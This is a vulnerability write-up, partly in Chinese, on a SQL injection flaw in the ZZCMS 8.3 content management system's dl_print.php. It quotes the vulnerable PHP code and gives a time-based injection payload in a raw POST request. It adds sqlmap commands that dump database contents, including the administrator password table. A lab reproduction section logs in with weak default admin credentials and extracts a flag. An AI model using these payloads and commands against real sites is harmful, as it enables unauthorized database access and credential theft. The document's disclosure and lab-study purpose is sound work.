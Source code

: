 ## 1. 漏洞介绍
站长招商网内容管理系统简称 ZZCMS，由ZZCMS团队开发，融入数据库优化，内容缓存，AJAX等技术，使网站的安全性 、稳定性 、负载能力得到可靠保障。源码开放，功能模块独立，便于二次开发。 zzcms8.3中dl/dl_print.php存在sql注入
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-40281)
## 2. 漏洞分析
[原理 + POC](https://gist.github.com/aaaahuia/583b062b686cdff27554e3c6fa5ac94e)
原理+POC备份
vulnerability code:
in file `dl/dl_print.php`
```php
<?php
include("../inc/conn.php");
...
#line 29-40
$id="";
$i=0;
if(!empty($_POST['id'])){
    for($i=0; $i<count($_POST['id']);$i++){
    $id=$id.($_POST['id'][$i].',');
    }
	
}else{
	$founderr=1;
	$ErrMsg="<li>操作失败！请先选中要下载的信息</li>";
}
$id=substr($id,0,strlen($id)-1);//去除最后面的","
...
#line 77-83
if (strpos($id,",")>0){
	$sql="select * from zzcms_dl where passed=1 and id in (". $id .") ";
	}else{
	$sql="select * from zzcms_dl where passed=1  and id=".$id." order by id desc";
}
	
$rs=query($sql);
```
Before you exploit the vulnerability, you need to visit this link to register users:
[http://127.0.0.1/reg/userreg.php](http://127.0.0.1/reg/userreg.php)
When you have an account, visit this link and the POC is as follows.
POC:
```http
POST /dl/dl_download.php HTTP/1.1
Host: your host
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://zzcms.com
Connection: close
Referer: http://zzcms.com/dl/dl_download.php
Cookie: UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6
Upgrade-Insecure-Requests: 1

id[0]=0&id[1]=1 AND (SELECT 5584 FROM (SELECT(SLEEP(9)))a)
```
sleep(9):
Screenshot link:[http://39.101.130.53/image-20210827005508639.png](http://39.101.130.53/image-20210827005508639.png)
You can also use sqlmap to verify this vulnerability. The specific usage is as follows:
**Note: please replace cookies and URLs with your own and make sure they are correct**
```shell
python sqlmap.py -u "http://zzcms.com/dl/dl_print.php" --cookie="UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6" --method POST --data "id[0]=0&id[1]=1" -p id[1] --tamper="between.py" --current-user --batch
```
Screenshot link:[http://39.101.130.53/image-20210827005636669.png](http://39.101.130.53/image-20210827005636669.png))
After waiting for a while, you can get the information you query, or you can change the statement. For example, the following statement is used to query the password of the administrator user:
```shell
python sqlmap.py -u "http://zzcms.com/dl/dl_print.php" --cookie="UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6" --method POST --data "id[0]=0&id[1]=1" -p id[1] --tamper="between.py" -D zzcms2021 -T zzcms_admin -C pass --dump  --batch
```
Screenshot link:[http://39.101.130.53/image-20210827010301240.png](http://39.101.130.53/image-20210827010301240.png))
## 3. 漏洞复现
开启环境后尝试访问 /dl/dl_print.php，结果被重定向至用户登录界面，尝试注册个账号，以失败告终。找管理员登录界面尝试用弱口令登录【admin/login.php：admin/admin】成功！在用户管理界面看到有几个待审用户，修改审核信息，再次到前面的用户登录界面登录。发布几个代理信息然后打印并抓包。
![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050975.png)

![6.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191052062.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050417.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191050564.png)

sqlmap 示例

```shell
python sqlmap.py -u http://eci-2zebvn4b2ryprk38t4fa.cloudeci1.ichunqiu.com/dl/dl_print.php --cookie="UserName=22222; PassWord=934b535800b1cba8f96a5d72f72f1611" --method POST --data "id[0]=5&id[1]=1" -p id[1] --tamper="between.py" --dbs --batch
………………
python sqlmap.py -u http://eci-2zebvn4b2ryprk38t4fa.cloudeci1.ichunqiu.com/dl/dl_print.php --cookie="UserName=22222; PassWord=934b535800b1cba8f96a5d72f72f1611" --method POST --data "id[0]=5&id[1]=1" -p id[1] --tamper="between.py" --batch -D zzcms -T flag -C flag --dump
```

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191051773.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191051774.png)

注，也可以直接将抓到的包存为 post.txt【可以删掉`FileExt=xls&sql=select+count%28*%29+as+total+from+zzcms_dl+where+passed%3C%3E0++and+classid%3D1&chkAll=checkbox&`】，用 sqlmap 跑【就是感觉有点慢】
```python
python sqlmap.py -r post.txt  -p id[1] --tamper="between.py" --batch --dbs --level=5 --risk=3
```

![7.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309191058465.png)
